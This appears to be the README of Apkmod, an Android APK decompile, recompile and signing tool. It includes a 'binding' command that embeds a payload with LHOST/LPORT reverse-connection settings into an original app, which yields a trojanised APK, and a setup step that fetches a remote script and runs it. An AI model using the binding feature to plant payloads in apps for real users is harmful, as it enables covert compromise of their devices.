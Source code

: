 # Apkmod v1.7
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `sh setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Now you can use a optional option `-a` to use __aapt2__ for __binding__ and __recompiling__. Why aapt2 ? Because some apps can't recompile with __aapt__ but __aapt2__ can do it. But I can't drop __aapt__ support because some apps can't recompile with __aapt2__ so first recompile or bind without __aapt2__ ( `-a` ) then if you failed then try with __aapt2__. For example `apkmod -a -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`.
6. Use `-V` to enable verbose output
7. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
8. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`

### Size Comparision
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.

